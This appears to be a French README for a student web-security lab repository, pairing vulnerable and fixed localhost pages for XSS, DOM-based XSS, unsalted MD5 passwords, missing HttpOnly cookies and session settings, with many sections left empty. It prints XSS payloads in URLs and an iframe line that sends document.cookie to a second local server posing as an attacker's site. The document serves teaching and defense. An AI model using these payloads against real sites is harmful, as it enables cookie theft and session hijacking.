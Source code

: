 # was-grp11
Groupe 11 (Youssra IBRAHIMI, Io ALFANO, Assia HAFID)
<br>
## XSS Rule 0
Cette règle déconseille d’utiliser des données qui peuvent être modifiées dans des balises pouvant exécuter du code.
Le programme vulnérable contient une balise script qui récupère la valeur associée à un paramètre. Avec cette valeur, il est possible de modifier la syntaxe du script pour exécuter un autre code.<br>
**Attaque :**<br>
Si on modifie la valeur du paramètre name dans l’URL il est possible d’exécuter du code si la balise php est contenue dans une balise script.
Par exemple, si on remplace la valeur du paramètre name par alert(document.cookie) cela va ouvrir une boîte d’alerte et afficher le cookie.
http://localhost/was-grp11/xss_0/atk_xss_0.php?name=alert(document.cookie)<br>
**Defense :**<br/>
Pour éviter cela, si on doit ajouter des données “untrusted” alors il est nécessaire de ne pas utiliser des balises pouvant exécuter du code comme les balises script. 
C’est pour cela que dans la défense nous avons mis la balise php en dehors de la balise script. Le programme de défense n’exécute plus le code mis dans le paramètre name l’URL http://localhost/was-grp11/xss_0/def_xss_0.php?name=alert(document.cookie) <br>
<br>
## XSS Rule 1 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 2 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 3 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 4 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 5 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 6 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 7 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## XSS Rule 8 <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## DOM Based XSS  
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
On peut créer un bouton de la manière suivante http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=My%20custom%20button <br/>
**Attaque :** <br/>
Aller sur la page http://localhost:8080/dom_xss_1/atk_dom_xss_1.html?button=<script>alert(document.cookie)</script> <br/>
Cela va générer une alerte avec le cookie. Le serveur va générer un objet DOM sans vérifier si le code contient un script malveillant. <br/>
**Defense :**<br/>
Pour contrer ce type d’attaque il faut utiliser un outil pour nettoyer le code avant de l’ajouter au DOM. Nous avons utilisé DOMPurify. <br/>
Quand du code JavaScript est repéré, il est supprimé avant d'être ajouté dans le DOM.<br/>
http://localhost:8080/dom_xss_1/def_dom_xss_1.html?button=<script>alert(document.cookie)</script><br/>
<br/>
## SQL Injection <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## Password Salting
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
Initilisaliser la base de données en faisant `sudo mysql < init_db_password.sql`.<br/>
La page HTML permet de s’authentifier sur le compte de l’administrateur. Le serveur va récupérer le mot de passe de l’administrateur qui vaut MD5(‘admin123’) et va le comparer au mot de passe à tester sur lequel la fonction MD5 a été appliquée.<br/>
De cette manière un attaquant peut facilement retrouver le mot de passe grâce à des rainbow tables.<br/>
**Attaque :** <br/>
http://localhost:8080/atk_password.php?password=admin123<br/>
**Defense :**<br/>
Pour générer un nouveau mot de passe nous avons utilisé le code suivant :<br/>
`$salt = bin2hex(openssl_random_pseudo_bytes(22));`<br/>
`$hash = crypt($_GET['password'], "$2a$12$".$salt);`<br/>
De cette manière un salt est généré aléatoirement pour chaque mot de passe et l’utilisation de rainbow tables devient plus compliqué.<br/>
http://localhost:8080/password/def_password.php?password=admin123<br/>
<br/>
## Session HttpOnly
Il faut lancer un serveur sur le port de votre choix (8080) dans le dossier *was-grp11/* et un autre sur le port 8089 (vous pouvez en choisir un autre mais il faut modifier le fichier vulnérable) dans le dossier *bad_session/*.<br/>
HttpOnly est un attribut des cookies qui permet d’indiquer aux navigateurs de ne pas laisser des scripts avoir accès aux cookies depuis le DOM. Le site vulnérable n’implémente pas HttpOnly.<br/>
**Attaque :**<br/>
L’attaquant a déposé un lien permettant d’envoyer une requête contenant les cookies sur un site malveillant. HttpOnly est désactivé.<br/>
`<iframe src="javascript:document.location='http://localhost:8089/bad_session_httponly.php?cookie='+document.cookie"></iframe>`<br/>
http://localhost:8080/session/vulnerable_session_httponly.php <br/>
**Defense :**<br/>
Pour protéger ce site de ce genre d’attaque, il faut préciser aux navigateurs d’utiliser HttpOnly. De cette manière, un attaquant ne pourra pas récupérer des données contenues dans les cookies.<br/>
http://localhost:8080/session/def_session_httponly.php <br/>
![image](https://user-images.githubusercontent.com/54988405/137313105-bded2987-aeda-411d-84d9-6041ad80afa8.png)
<br/>
## Session ID Length
**Attaque :**<br/>
Le site vulnérable créé un cookie en faisant un hachage d'une longueur de 64 bits. Pour exploiter la vulnérabilité il faut utiliser des rainbows tables composé de hachage et trouver le bon mot de passe qui génère le bon hachage.<br/>
**Defense :**<br/>
Pour améliorer la défense du site il faut augmenter la taille du session ID. Elle doit être de 128 bits minimum. Le nouveau site génère les session ID avec des hachages de 128 bits.<br/>
## XML External Entity <br>
**Attaque :** <br/>
<br/>
**Defense :**<br/>
<br>
## Session Max-Age <br>
Il est possible de créer des cookies persistent et des cookies non-persistents. Il est recommandé de ne pas créer de cookie persistent sinon un attaquant pourra accéder au cookie plus facilement.<br>
**Attaque :** <br/>
Quand on définit une date d'expiration a un cookie, celui-ci ne se supprimera pas si le navigateur est fermé.<br>
<br/>
**Defense :**<br/>
Il faut créer les cookies pour qu'ils ne soient persistent, de cette manière ils se ferment quand la session est fermé.
